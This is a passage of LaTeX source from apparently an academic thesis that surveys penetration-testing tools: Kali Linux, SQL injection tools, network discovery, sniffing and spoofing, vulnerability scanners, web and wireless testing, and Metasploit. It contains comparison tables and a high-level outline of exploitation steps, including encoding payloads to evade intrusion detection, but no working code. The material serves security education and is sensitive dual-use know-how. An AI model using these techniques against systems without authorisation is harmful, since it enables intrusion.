
\includegraphics[width=1.0\textwidth]{Resources/Tools/Kali.png}
\caption{Kali Linux Desktop Environment}
\end{figure}

Kali Linux was released on the 13th March, 2013 as a complete, top-to-bottom rebuild of BackTrack Linux, offering the features listed below:

\begin{itemize}
    \item More than 600 penetration testing tools \cite{kali2019tools}.
    \item Open source Git tree
    \item File Hierarchy Standard (FHS) compliant
    \item ARM support\footnote{Arm CPU architecture is a set of specifications that allows developers to write software and firmware that will behave in a consistent way on all Arm-based processors. See \href{https://developer.arm.com/architectures}{ARM's website}}
\end{itemize}
\end{description}


Every operating system has its advantages and disadvantages. The tester selects the system that fits and complements his style of work and makes him feel more comfortable when using. On the other hand, a tester's tool case can vary from test to test, depending on tools' characteristics and specifications but most importantly, the identified vulnerabilities to be examined and attacked. 

\section{Database Assessment}

A database is an organized collection of data, generally stored and accessed electronically from a computer system. It is physically structured into one or more files, but to the user, the data is presented as tables containing rows and columns. A user can access data depending on his privileges.

\subsubsection{Data Handling, Storage and Transmission}
The method by which an organization's data is handled is critical to ensuring protection of sensitive information-including system architecture, security configurations, and system vulnerabilities. Organizations should ensure proper use of the database, for example:
\begin{enumerate}
\item Proper logging in order to record every action and secure transmission of data.
\item Data integrity and security.
\item Support for authorization of access and update of data.
\item Concurrent access, recovery from crashes, etc.
\end{enumerate}

\subsubsection{Defining Database and Management Systems}
Where databases are more complex they are often developed using formal design and modeling techniques. In order for data to flow as planned and the database to be managed and used properly, Management Systems come in handy. The database management system (DBMS) is the software that interacts with end users, applications, the database itself to capture and analyze the data and provides facilities to administer the database. The sum total of the database, the DBMS and the associated applications can be referred to as a "database system". Often the term "database" is also used to loosely refer to any of the DBMS, the database system or an application associated with the database. 

The types of databases that this chapter examines are all known as Database
Management Systems. These systems offer not just a data storage facility, but also tools to manage and manipulate the data stored within. These are the tools of the trade to a database administrator (DBA) or
developer, but they are equally important in a hacker toolkit.

Some recognizable DMBSs are:
\begin{itemize}
\item MySQL
\item MondoDB
\item Microsoft SQL Server
\item Oracle Database
\item PostgreSQL
\end{itemize}

\subsubsection{Testing Database Vulnerabilities}

Potential attacks on a database system can occur using the tools shown in Table \ref{Database} \cite{sqlninja2011}\cite{sqlmap2006}\cite{jsql2019}\cite{bbqsql2019}. Attacks like SQL Injection, Unauthorized privilege elevation, Denial of Service (DoS) and Exposure of backup data are some of the most common \cite{whitaker2006}.

\begin{table}[H]
\label{Database}
\centering
\begin{tabular}{c c c c}

\multicolumn{4}{c}{\textbf{\large{Database Assessment}}} \\
\hline & \small{JSQL} & \small{SqlMap} & \small{SqlNinja} \\
\hline

\small{Open-Source} & + & + & + \\ 

\small{GUI} & + && \\ 

\small{No of DBMSs Supported} & 23 & 10 & 1 \\

\small{No of Injection Techniques} & 4 & 6 & 7 \\ 

\small{Injection on Multiple Targets} & + & + &\\ 

\small{Brute-Force on sysadmin Password} & + & + & + \\ 

\small{Upload of Executables using HTTP} & + & + & + \\ 

\small{Privilege Escalation} & + & + & + \\ 

\small{Database Fingerprinting} && + & + \\ 
\hline 
 
\end{tabular}
\caption{Database Assessment tools comparison \label{DBs}}
\end{table}

\section{Information Gathering}
Preparation is crucial to any penetration test. Information gathering is the most time-consuming and laborious phase of the attack cycle but is often a major determinant of the success or failure of the engagement. 

Information Gathering software use a number of methods to discover active and responding hosts on a network, identify weaknesses, and learn how the network operates. Both passive (examination) and active (testing) techniques exist for discovering devices on a network. Passive techniques use a network sniffer to monitor network traffic and record the IP addresses of the active hosts, and can report which ports are in use and which operating systems have been discovered on the network \cite{osstmm2010}.
\subsubsection{Passive Discovery} Passive discovery can also identify the relationships between hosts-including which hosts communicate with each other, how frequently their communication occurs, and the type of traffic that is taking place-and is usually performed from a host on the internal network where it can monitor host communications. This is done without sending out a single probing packet. Passive discovery takes more time to gather information than does active discovery, and hosts that do not send or receive traffic during the monitoring period might not be reported.

\subsubsection{Active Discovery}
Active techniques send various types of network packets, such as Internet Control Message Protocol (ICMP)\footnote{The Internet Control Message Protocol (ICMP) is a supporting protocol in the Internet protocol suite. It is used by network devices, including routers, to send error messages and operational information indicating, for example, that a requested service is not available or that a host or router could not be reached.} pings, to solicit responses from network hosts, generally through the use of an automated tool. One activity, known as OS fingerprinting, enables the assessor to determine the system's OS by sending it a mix of normal, abnormal, and illegal network traffic \cite{whitaker2006}. Another activity involves sending packets to common port numbers to generate responses that indicate the ports are active. The tool analyzes the responses from these activities, and compares them with known traits of packets from specific operating systems and network services-enabling it to identify hosts, the operating systems they run, their ports, and the state of those ports. This information can be used for purposes that include gathering information on targets for penetration testing, generating topology maps, determining firewall and IDS configurations, and discovering vulnerabilities in systems and network configurations.

\subsubsection{Comparison of Techniques}
Some of the advantages of active discovery, as compared to passive discovery, are that an assessment can be conducted from a different network and usually requires little time to gather information. In passive discovery, ensuring that all hosts are captured requires traffic to hit all points, which can be time-
consuming-especially in larger enterprise networks. A disadvantage to active discovery is that it tends to generate network noise, which sometimes results in network latency. Since active discovery sends out queries to receive responses, this additional network activity could slow down traffic or cause packets to be dropped in poorly configured networks if performed at high volume. Active discovery can also trigger IDS alerts, since unlike passive discovery it reveals its origination point. The ability to successfully discover all network systems can be affected by environments with protected network segments and perimeter security devices and techniques. For
example, an environment using network address translation (NAT)-which allows organizations to have internal, non-publicly routed IP addresses that are translated to a different set of public IP addresses for external traffic-may not be accurately discovered from points external to the network or from protected segments. Personal and host-based firewalls on target devices may also block discovery traffic. Misinformation may be received as a result of trying to instigate activity from devices. Active discovery presents information from which conclusions must be drawn about settings on the target network. For both passive and active discovery, the information received is seldom completely accurate. To illustrate, only hosts that are on and connected during active discovery will be identified-if systems or a segment of the network are offline during the assessment, there is potential for a large gap in discovering devices.

\subsubsection{Tools Listing and Comparison}

A number of tools exist for use in network discovery, and it should be noted that many active discovery tools can be used for passive network sniffing and port scanning as well. Most offer a graphical user interface (GUI), and some also offer a command-line interface. Command-line interfaces may take
longer to learn than GUIs because of the number of commands and switches that specify what tests the tool should perform and which an assessor must learn to use the tool effectively. Also, developers have written a number of modules for open source tools that allow assessors to easily parse tool output. For
example, combining a tool's Extensible Markup Language (XML) output capabilities, a little scripting, and a database creates a more powerful tool that can monitor the network for unauthorized services and machines.

In the following Table, tools like: 
\begin{itemize}
\item Nmap
\item Wireshark
\item Maltego etc.
\end{itemize}
which are notable and widely used in any form of Penetration Testing, even integrated in other software, are listed and analyzed \cite{wireshark1998}\cite{nmap2019}\cite{arp2019}\cite{dmitry2019}\cite{etherape2019}.
\begin{table}[H]

\label{InfGathering}

\centering

\begin{tabular}{l c c c c c c c c}

\multicolumn{7}{c}{\textbf{\large{Information Gathering Software}}} \\
\hline & \small{arp-scan} & \small{DMitry} & \small{EtherApe} & \small{Maltego} & \small{Nmap} & \small{Wireshark} \\
\hline

\small{Open-Source} & + & + & + && + & + \\ 

\small{GUI} &&& + & + & + & + \\ 
 
\small{OS Detection} && + && + & + & + \\

\small{Port Scanning} && + &&& + &  \\ 
 
\small{Host Discovery/NAT} & + & + & + & + & + &  \\ 

\small{DNS/Whois Look-up} & + & + & + & + & + & + \\ 

\small{Data Capture} & + & + & + &  &  & + \\ 
 
\small{E-mail Search on Host} && + && + &&\\ 

\small{Export Output} & + & + & + & + & + & + \\ 
\hline
\end{tabular}
\caption{Information Gathering tools \label{Info Gathering}}
\end{table} 

Collecting information on the target system is a major part of the test since the output of those tools are highly valuable and the success of the project might depend on their results. 

\section{Sniffing and Spoofing}


Nowadays, computer networks are usually large and diverse systems that communicate using a wide variety of protocols. This complexity created the need for more sophisticated tools to monitor and troubleshoot network traffic.

Packet sniffing and spoofing are the two important concepts in network security; they are two major threats in network communication that target the lower layers of the networking infrastructure supporting applications that use the Internet. Being able to understand these two threats is essential for understanding security measures in networking.
Sniffing and Spoofing are two terms that are usually confused and often used interchangeably. The misconception that phishing/sniffing and spoofing are synonymous, based on nothing more than aesthetic similarities, pervades the Internet.

Sniffing is the use of a network interface to receive data not intended for the machine in which the interface resides. Any eavesdropping on existing traffic can be called sniffing. To be more precise, consider a LAN\footnote{A Local-Area Network (LAN) is a computer network that interconnects computers within a limited area such as a residence, school, laboratory, university campus or office building. Ethernet and Wi-Fi are the two most common technologies in use for local area networks.} having Computers A, B and C. If A and B are talking and C is trying to listen to their conversation, then C is trying a Sniffing attack provided that, according to the LAN configuration, C is not supposed to listen to conversation between A and B \cite{weidman2014}.

On the other hand, Spoofing is an active security attack in which one machine on the network masquerades as a different machine. Email spoofing is one of the best known spoofs \cite{whitaker2006}. Since core SMTP\footnote{Simple Mail Transfer Protocol (SMTP) is an Internet standard for electronic mail (email) transmission. SMTP is a connection-oriented, text-based protocol in which a mail sender communicates with a mail receiver by issuing command strings and supplying necessary data over a reliable ordered data stream channel, typically a Transmission Control Protocol (TCP) connection.} fails to offer authentication, it is simple to forge and impersonate emails \cite{harris2007}.
 
 There are many packet sniffing and spoofing tools, such as Wireshark, OWASP-Zap, WebScarab, etc. Some of these tools which widely used by security experts, as well as by attackers, can be seen in Table \ref{SniffSpoof} \cite{wireshark1998}\cite{zedattack2013}\cite{sslstrip2019}\cite{hamster2019}\cite{webscarab2019}.
\begin{table}[H]
\centering

\begin{tabular}{l c c c c c c c c c}

\multicolumn{8}{c}{\textbf{\large{Sniffing - Spoofing}}} \\

\hline & \scalebox{.65}{Etherape} & \scalebox{.65}{Hamster} & \scalebox{.65}{MITMf} & \scalebox{.65}{OWASP-Zap} & \scalebox{.65}{SSLstrip} & \scalebox{.65}{WebScarab} & \scalebox{.65}{Wireshark} \\
\hline

\scalebox{.7}{Open-Source} & + & + & + & + & + & + & + \\ 

\scalebox{.7}{GUI} & + &&& + && + & + \\ 

\scalebox{.7}{Packet Capture} & + &&& + && + & + \\ 
 
\scalebox{.7}{MITM Attack} &&& + && + && \\

\scalebox{.7}{Injections} &&& + &&&& \\ 
 
\scalebox{.7}{HTTPS to HTTP} &&& + && + &&\\ 

\scalebox{.65}{HTTP Session Hijacking} && + && + & + & + & + \\ 

\scalebox{.7}{Cookie Sniffing} && + & + &&&& + \\ 
\hline 
\end{tabular} 
\caption{Sniffing and Spoofing software \label{SniffSpoof}}
\end{table}

\section{Vulnerability Analysis/ Security Auditing}
As the number of security threats to networks and servers grows, security managers have turned to vulnerability analysis tools to identify a wide variety of potential problems on their networks. When identifying vulnerabilities, we actively search for issues that will lead to compromise in the exploitation phase. Although some security firms will just run an automated exploitation tool and hope for the best, careful study of the vulnerabilities by a skilled pentester will garner better results than any tool on its own. The tools that were examined and used in this thesis are the following:
\begin{itemize}
\item Lynis
\item Nessus
\item OpenVAS
\item Yersinia
\end{itemize}



These tools can search for misconfigured application servers, such as Web servers; and network components, such as switches and routers, that are vulnerable to known problems. They look for out-of-date applications, especially those with known problems.
\begin{table}[H]
\centering
\begin{tabular}{l c c c c c c}

\multicolumn{5}{c}{\textbf{\large{Vulnerability Analysis Tools}}} \\
\hline  & \small{Lynis} & \small{Nessus} & \small{OpenVAS} & \small{Yersinia} \\
\hline
\small{Open-Source} & + && + & + \\ 

\small{GUI} & + & + && + \\ 
 
\small{Logging} & + & + & +& + \\

\small{Plugins} && + && + \\ 

\small{Concurrent Host Scanning} & + &&& + \\ 

\small{SQL database Scan} & + & + && + \\ 

\small{Reporting} & + && + & + \\ 

\hline 

\end{tabular} 
\caption{Security Auditing for active "self"-testing \label{VulAnalysis}}
\end{table}

With new vulnerabilities being published with alarming frequency, keeping these tools current is essential.  While these tools may come with a fairly comprehensive set of tests, admins often need to create custom tests quickly and easily to examine specific conditions on their network--preferably without having to be a master programmer. For example, on our network, a common management application needed patching. We tried to write custom tests for each tool that would let us detect the unpatched application by the version number in its welcome banner.

\section{Web Application Analysis}
Web applications are complex, software-intensive systems, providing hyper-textual contents, computational facilities and services.  Furthermore, they typically work in a distributed, asynchronous fashion. Correspondingly, the quality of Web applications is a complex, multidimensional attribute.  The problem of improving the quality of Web applications involves several aspects, including the extraction of suitable models, testing, restructuring, assessment of multilingual alignment and accessibility.

Taking all those factors into consideration, the security of a Web application is crucial. Like all software, web applications may have issues when input is not properly sanitized. For example, when an application pulls data from a database based on certain user input, the application may expect specific input
such as a username and password. If, instead, the user enters special input to create additional database queries, he or she may be able to steal data from the database, bypass authentication, or even execute commands on the underlying system. Another example is when the application mismanages session related information such that the user's identity gets compromised. The information can be in the form of session cookies, passwords, secret keys etc.

To address the issue of more and more applications becoming Internet based, and the need to test the security aspects of Web applications, resources such as the open-source methodology Open Web Application Security Project (OWASP)\footnote{ For further information, see \url{https://www.owasp.org/index.php/Main_Page}} can be used and their project OWASP Top 10 2017 Project. OWASP is an open-source, community dedicated project that provides a testing framework for http-based applications. The OWASP Top 10 project is a powerful awareness document for web application security. It represents a broad consensus about the most critical security risks to web applications. According to the most recent Top 10 project, which was published in 2017, the Top 10 Web Application Security Risks are \cite{owasp2017}:
\begin{enumerate}
\item Injection
\item Broken Authentication
\item Sensitive Data Exposure
\item XML External Entities (XXE)
\item Broken Access Control
\item Security Misconfiguration
\item Cross-Site Scripting (XSS)
\item Insecure Deserialization
\item Using Components with Known Vulnernabilities
\item Insufficient Logging and Monitoring
\end{enumerate}

The tools considered in this thesis are presented in the Table \ref{WebAppAnalysis}, where some of their features are listed and compared \cite{zedattack2013}\cite{golismero2019}\cite{burp2019}\cite{webscarab2019}.
\begin{table}[H]
\centering
\begin{tabular}{l c c c c c c c}

\multicolumn{8}{c}{\textbf{\large{Web Applications Analysis Tools}}} \\

    \hline   & \scalebox{.7}{BurpSuite} & \scalebox{.7}{GoLismero} & \scalebox{.7}{Nikto} & \scalebox{.7}{OWASP-Zap} & \scalebox{.7}{Recon-ng} & \scalebox{.7}{Skipfish} & \scalebox{.7}{WebScarab}
\\
   \hline \scalebox{.8}{Open-Source} & + & + & + & + & + & + & + 
\\
   \scalebox{.8}{GUI} & + &&& + &&& +
\\
    \scalebox{.7}{Intercepting Proxy} & + && + & + & + &  & + 
\\
    \scalebox{.8}{Fuzzer} & + &&& + &&  & + 
\\
	\scalebox{.8}{(AJAX) Spider} & + &&& + & + & + & + 
\\
	\scalebox{.7}{Web Sockets (Nmap)} & + & + & + & + &&& + 
\\ 
	\scalebox{.8}{SSL Support} & + & + & + & + & + & + & + 
\\ 
	\scalebox{.7}{Automated Scans} & + &&& + && + & + 
\\ 
    \hline
\end{tabular}
\caption{Web Application and Website testing software \label{WebAppAnalysis}}
\end{table}

\section{Wireless Testing}


Wireless technologies, in their simplest sense, enable one or more devices to communicate without the need for physical connections such as network or peripheral cables. They range from simple technologies like wireless keyboards and mice to complex cell phone networks and enterprise wireless local area networks (WLAN). As the number and availability of wireless-enabled devices continues to increase, it is important for organizations to actively test and secure their enterprise wireless environments.\footnote{ For proper measures to secure IEEE 802.11-based WLANs, please refer to NIST SP 800-97, Establishing Wireless Robust
Security Networks: A Guide to IEEE 802.11i, and NIST SP 800-48 Revision 1, Guide to Securing Legacy IEEE 802.11 Wireless Networks, available at \url{http://csrc.nist.gov/publications/PubsSPs.html}.}

Although wireless networking provides great ease in setting up networked communications and offers mobility among users, it comes at a risk of security. Malicious hackers can easily detect wireless networks and gain access to your corporate network. Although a few methods are in place to enhance security, most are weak and easily broken. Wireless scans can help organizations determine corrective actions to mitigate risks posed by wireless-enabled technologies.

The wireless scanning tool should be capable of scanning all Institute of Electrical and Electronics Engineers (IEEE)\footnote{ For more information, see \url{https://www.ieee.org/}.} 802.11a/b/g/n channels, whether domestic or international. In some cases, the device should also be fitted with an external antenna to provide an additional level of radio frequency (RF) capturing capability. Support for other wireless technologies, such as Bluetooth, will help evaluate the presence of additional wireless threats and vulnerabilities. Note that devices using nonstandard technology or frequencies outside of the scanning tool's RF range will not be detected or properly recognized by the scanning tool.
Some devices also support mapping and physical location plotting through use of a mapping tool, and in some cases support Global Positioning System (GPS)-based mapping. Sophisticated wireless scanning tools allow the user to import a floor plan or map to assist in plotting the physical location of discovered devices. (It is important to note that GPS has limited capabilities indoors.)

Some of those tools are presented in Table \ref{WirelessScan} and will be used in this thesis, depending on the target system's characteristics and functions \cite{wifite2019}\cite{aircrack2019}\cite{ghost2019}\cite{kismet2019}.
 
\begin{table}[H]
\label{WirelessScan}
\centering
\begin{tabular}{l c c c c c c}

\multicolumn{6}{c}{\textbf{\large{Wireless Testing Tools}}} \\

\hline & \scalebox{.7}{aircrack-ng Suite} & \scalebox{.7}{Ghost-Phiser} & \scalebox{.7}{Kismet} & \scalebox{.7}{mdk3} & \scalebox{.7}{Wifite} \\
\hline

\small{Open-Source} & + & + & + & + & + \\ 

\small{GUI} && + & + && \\ 

\small{802.11 Traffic Capturing} & + & + & + && \\

\scalebox{.8}{Rogue Access Point Emulator} && + &&& \\ 
 
\small{ARP Poisoning} & + &&&& + \\ 

\small{WPA/WPA2 Cracking} & + &&& + & + \\ 

\small{GPS Coordinates} &&& + &&  \\ 
 
\small{Handshake Capturing} & + &&& + & + \\ 

\hline 
\end{tabular} 
\caption{Wireless Scanning and 802.11a/b/g Standard testing software \label{WirelessScan}}
\end{table}

In cases where an organization hires a contractor to implement the WLAN, it is important for the organization to conduct acceptance/verification testing to ensure that all technical system requirements are met and that the overall system is functioning effectively. The tests verify that the overall system has adequate signal coverage, performance, capacity, and security, and that management systems are in place and operating properly.

\section{Exploitation Tools and Frameworks}
This is an enthralling and challenging phase in any penetration test. Exploitation is the step where the attacker identifies potential targets for penetration attempts and selects the suitable attack methods, after analyzing the vulnerabilities. Once the targets are specified, the penetration will be performed on these targets and there will be an attempt to exploit the previously identified potential vulnerabilities.

By now, the penetration tester has acquired lots of information about the target system and network. This information is now used to break into the target system. Executing an attack is at the heart of any penetration test. If an attack is successful, the vulnerability is verified and safeguards are identified to mitigate the associated security exposure. However, at this point penetration tester should consider external factors that affect what tools to use and when. This phase acts as verification of potential vulnerabilities and thus, entails the highest risk within a penetration test so it should be performed with a lot of caution. All the possible effects need to be carefully considered; all the exploits\footnote{Exploit programs or scripts are specialized tools for exploiting specific vulnerabilities. The same cautions that apply to freeware tools apply to exploit programs and scripts.} need to
be thoroughly tested in a controlled environment before performing critical test procedures \cite{whitaker2006}.

In many cases, exploits that are executed do not grant the maximum level of potential access to an attacker \cite{erickson2008}. They may instead result in the testers learning more about the targeted network and its potential vulnerabilities, or induce a change in the state of the targeted network's security. Some exploits enable testers to escalate their privileges on the system or network to gain access to additional resources. After an initial compromise of a target system or network, the penetration tester should look for ways, to increase their access to the system. Suppose, if a penetration tester has gained a local system access, tester should make an effort to carry out further analysis on the target system to gain root privilege.
The process is represented in the loop in Figure \ref{fig:Exploit} between the attack and discovery phase in a test, thus through penetrating and exploring the target system, even more vulnerabilities and crucial information might be discovered.
\begin{figure}[H]
\centering {
\includegraphics[scale = 0.65]{Resources/Tools/ExploitationTable.png}}
\caption{\label{fig:Exploit}Exploitation process}
\end{figure}
Most penetration testers make use of a combination of general purpose exploit applications and their own custom, scripts and applications. It should be kept into consideration that the effectiveness of any application
commercial or open source is not determined by the price tag, but the skill of the penetration tester. It is a good practice to try all possible applications and tools and decide which one work best for project environment.

In general, exploitation tools can be separated into two categories:
\begin{enumerate}
\item Tools that guide and assist the user in creating his own scripts and payloads\footnote{A payload refers to the component of a computer virus that executes a malicious activity. Apart from the speed in which a virus spreads, the threat level of a virus is calculated by the damages it causes. Viruses with more powerful payloads tend to be more harmful.}. Such type of tools are:
\begin{itemize}
\item ShellNoob \cite{shellnoob2013}
\item MSFvenom Payload Creator \cite{msfvenom2019}
\end{itemize}
\item Frameworks that provide exploits for different kind of targets and vulnerabilities. These tools can also be divided in subcategories based on where the exploit is being used on. For example, BeEF is short for The Browser Exploitation Framework \cite{beef2006}. It is a penetration testing tool that focuses on the web browser. Another example is Commix which is short for Command Injection Exploiter which is used to test web applications \cite{commix2009}. 
The most common framework in this category is Metasploit Framework with the biggest collection of exploits and payloads \cite{metasploit2004}.
\end{enumerate}

\subsubsection{Metasploit Framework}
According to SecTools.org \cite{sectools2019}, Metaslpoit Framework is the second most popular tool in the security community's favorite tools. Metasploit is the security framework originally developed in Perl by H.D. Moore in 2003 and rewritten in Ruby and acquired by Rapid7 in 2009. It is an open source project that provides the infrastructure, content, and tools to perform penetration tests and extensive security auditing. The extensible model through which payloads, encoders, no-op generators, and exploits can be integrated has made it possible to use the Metasploit Framework as an outlet for cutting-edge exploitation research. It often comes integrated in different kind of penetration testing tools and many other exploitation tools are based on it \cite{metasploit2004}. 
Key steps for exploiting a system using the Metasploit Framework can be broken
down into following steps as :
\begin{enumerate}
\item Choose and configure an exploit to be targeted.
\item Validate whether the target system is vulnerable to the chosen exploit.
\item Select and configure a payload that will be used.
\item Choose and configure the encoding schema to make sure that the payload can
evade Intrusion Detection Systems with ease.
\item Execute the exploit.
\end{enumerate}

\begin{figure}[H]
